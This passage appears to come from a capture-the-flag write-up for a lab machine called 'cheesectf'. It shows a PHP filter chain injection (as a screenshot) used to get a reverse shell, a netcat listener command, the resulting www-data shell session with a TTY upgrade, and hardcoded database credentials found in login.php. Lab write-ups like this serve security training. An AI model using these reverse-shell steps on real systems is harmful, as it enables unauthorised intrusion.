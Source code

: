 > Result:

![php_filter_chain_payload](./screenshots/php_filter_chain_payload.png)

> This is a very huge php filter chain

> runs the listener:

```bash

 sudo nc -lvnp 4444

```

> i substitute it into the parameters file and get a reverse shell to the **www-data** service account.


```bash 

listening on [any] 4444 ...
connect to [*.*.*.*] from (UNKNOWN) [10.10.221.128] 42572
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c /bin/bash
Script started, file is /dev/null
www-data@cheesectf:/var/www/html$ whoami
whoami
www-data
www-data@cheesectf:/var/www/html$

```

---

> **Note:** Returning to my first vector where i exploited the SQL vulnerability in the login form /login.php at the very beginning. Here is what i wanted to show.
> On the server at **/var/www/html** there is a file **login.php**, inside of which there is something interesting:

```bash

www-data@cheesectf:/var/www/html$ ls
adminpanel.css  login.css      orders.html        supersecretadminpanel.html
images          login.php      secret-script.php  supersecretmessageforadmin
index.html      messages.html  style.css          users.html
www-data@cheesectf:/var/www/html$

```
```bash

// Replace these with your database credentials
$servername = "localhost";
$user = "comte";
$password = "VeryCheesyPassword";
$dbname = "users";
```